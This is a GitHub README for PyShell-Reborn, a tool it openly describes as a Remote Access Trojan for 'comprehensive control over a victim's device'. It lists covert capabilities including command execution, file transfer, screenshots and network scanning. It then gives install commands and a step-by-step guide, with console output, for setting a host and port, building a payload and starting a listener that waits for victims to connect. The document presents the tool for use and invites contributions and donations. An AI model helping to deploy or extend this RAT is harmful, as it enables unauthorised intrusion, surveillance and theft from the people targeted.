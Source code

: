 # PyShell-Reborn

NOTE: PyShell-Reborn is a fork of [pyshell](https://github.com/knassar702/pyshell) tool by knassar702.


**PyShell-Reborn** is a Remote Access Trojan (RAT) that allows for comprehensive control over a victim's device. It allows users to create and deploy payloads to remote systems, enabling a command and control interface. 


## Features 

- Upload and download files.
- Execute OS commands.
- Get victim's address.
- Open files on the victim's device.
- Open URLs in the victim's browser.
- Print messages in the victim's terminal.
- See active devices on the victim's network.
- Take screenshots from the victim's device.


## Installation (Linux)

1. Clone the repository locally: 

``` shell
git clone https://github.com/arnavpadwal/pyshell-reborn.git
cd pyshell-reborn
```

2. Install Dependencies:

``` shell
pip install -r requirements.txt
```

3. Running the script:

``` shell
./pyshell-reborn
```


## Usage Guide

PyShell-Reborn supports various commands to configure and manage payloads and connections. Below is a list of the primary commands and their usage:

#### **General Commands**

- `help` - Displays the list of available commands.

- `banner` - Clears the screen and displays the tool's logo.

- `exit` - Exits the tool.

#### **Configuration Commands**
- `set host <IP>` - Sets the IP address for the payload.

- `set port <PORT>` - Sets the port number for the payload.

- `set name <SESSION_NAME>` - Sets the session name for the payload.

- `show options` - Displays the current configuration options (host, port, and name).

#### **Payload Commands**

`make` - Builds the payload with the specified host, port, and session name. The payload is saved in the *payloads* directory.

#### **Exploitation Commands**

`run` - Starts the listener to wait for the victim to connect.

`exploit` - An alias for the `run` command.

`start` - Another alias for the `run` command.


## Examples

#### **Setting Configuration Options**

To configure the host and port for the payload:

```
[👾] Pyshell-Reborn :~ set host 192.168.1.10
Host => 192.168.1.10

[👾] Pyshell-Reborn :~ set port 4444
Port => 4444
```

To set a session name:

``` 
[👾] Pyshell-Reborn :~ set name mysession
Name => mysession
```

To view the current configuration:

``` 
[👾] Pyshell-Reborn :~ show options

[+] Your Host : 192.168.1.10
[+] Your Port : 4444
[+] Session Name : mysession
```

#### **Creating a Payload**

After configuring the host, port, and name, you can create the payload:

``` 
[👾] Pyshell-Reborn :~ make
[+] Building Payload [+]
[+] Completed [+]
[!] Saved in payloads File
```

#### **Running the Listener**

To start the listener and wait for a victim to connect:

``` 
[👾] Pyshell-Reborn :~ run
[+] Waiting for The Victim to connect..
```

#### **Example Session**

1. Set Configuration:
``` shell
set host 192.168.1.10
set port 4444
set name mysession
show options
```
2. Create Payload:
``` shell
make
``` 
3. Run Listener:
```shell
run
```

## Contribution Guide

Any contributions to the development of PyShell-Reborn are most welcome. Whether you want to report issues, request new features, or directly contribute to the codebase, your involvement is highly appreciated. Here's how you can contribute:

### Creating Issues and Feature Requests

- If you encounter any bugs, you can create an issue on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Additionally, if have ideas for new features, you can create a feature request on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Make sure to add the respective labels.
<img src="./img/labels.png" alt="labels section can be found on the right side of the page." width="250"/>

NOTE: Please provide detailed information to help me understand and resolve the issue or implement features.


### Supporting the Project

If you find PyShell-Reborn useful and would like to support the project's development, consider making a donation. Your support is greatly appreciated and helps me continue improving and maintaining the tool.

<img src="./img/upi.png" alt="upi information" width=180>

## To-Do

- [ ] Windows support.





## License

This project is licensed under the GPL 3.0 License.

---
